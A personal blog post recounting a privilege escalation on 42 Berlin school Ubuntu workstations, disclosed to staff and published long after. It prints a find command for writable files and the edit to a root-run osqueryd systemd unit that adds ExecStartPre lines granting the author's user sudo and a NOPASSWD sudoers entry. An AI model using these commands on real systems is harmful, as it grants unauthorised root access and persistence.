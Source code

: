 ```yaml
---
layout: post
title: "Privilege escalation at 42 Berlin"
---
```

### _Climbing in Berlin_

<img src="{{ site.baseurl }}/images/pwned.webp" alt="Image" width="300" height="auto">

> I arrived at [school](https://42berlin.de/) on a sunday morning, and our Ubuntu installation was acting up. 
Firefox wouldn't start, VScode either. And so my morning began.

  It was early morning, and already I had issues with our workstations. Naturally, we do not have admin privileges at school... _Unless we do_

_Hacking_ or trying to find vulnerabilities at 42 School's its encouraged and even rewarded, but my previous attempts had been fruitless when it was
_just for fun_. This time, however, It was personal.
I was in a hurry to get my project done and lately the old storage system we had at that time was making the machines unresponsive sporadically.
<br>

> Can you hack my ex's facebook account?

We usually think of exploits as complex and niche, things only _real_ hackers know how to spot
by reading the memory of a running system in plain hexadecimal values.
But more often than not, a simple misconfiguration in a single text file’s permissions, is enough to spread mayhem and chaos to
a whole system.

<br>
_( In this case all the 42 Schools worldwide that used the same Ubuntu recipe)_


---

<br>

### _Getting there_


> I repeated my usual routine of checking recent kernel exploits POCs matching ours, GTFO bins, suid bins...

Nothing,  All I really needed were my bookmarks with all the links for the C project I was working on at the time, and VScode because I still
didn't know how to use ```git mergetool``` inside neovim properly yet, and needed to solve some conflicts.

> I will find you


Suddenly, I came accross a [good list of find commands](https://github.com/sujayadkesar/Linux-Privilege-Escalation?tab=readme-ov-file#writable-files)
to search for files with specific permissions.
In there a very specific one caught my eye:


```bash
find / -writable ! -user \`whoami\` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```
<br>

Find all the files that I'm not an owner of, and can be written into by my user.
The rest is just ignoring the system files that are not relevant and piping the error output to /dev/null in order to keep the output clean.

One of the most interesting files I see it's a .service file, meaning a systemd daemon. Huh! I'm familiar with those :-)
<br>

`/usr/lib/systemd/system/osqueryd.service`

When I glance into it, *Big* surprise, 

```bash
User=root
Group=root
```

The [osquery service](https://www.osquery.io/) runs as ```root``` at boot and is writeable by my user...

So I proceed with the most logical step, adding my user to the sudoers file

<br>
```bash
[Service]
TimeoutStartSec=0
EnvironmentFile=/etc/default/osqueryd
ExecStartPre=/bin/sh -c "usermod -aG sudo ccattano"
ExecStartPre=/bin/sh -c "echo 'ccattano   ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers"
```
_Showing only the relevant parts of the file._



On the next reboot, my user would be appended and get sudo privileges.

```bash
root        ALL=(ALL) ALL
bocal       ALL=(ALL) NOPASSWD: ALL
ccattano    ALL=(ALL) NOPASSWD: ALL
```

---

<br>

### _Leaving as a gentleman_


> I'm in

<img src="{{ site.baseurl }}/images/imin.png" alt="Image" width="500" height="auto" />

<br>

I proceeded to fix Firefox and VS Code, and, of course, I left a mark.

Contacted the school's staff to report the vulnerability minutes later.

> hearts for you, [stars](https://github.com/CarloCattano?tab=repositories&q=&type=public&language=&sort=) for me

<img src="{{ site.baseurl }}/images/washere.jpg" alt="Image" width="500" height="auto">

_It has been over 1.5 years since I found this in June 2023, giving the 42 network more than enough time to fix the vulnerability._


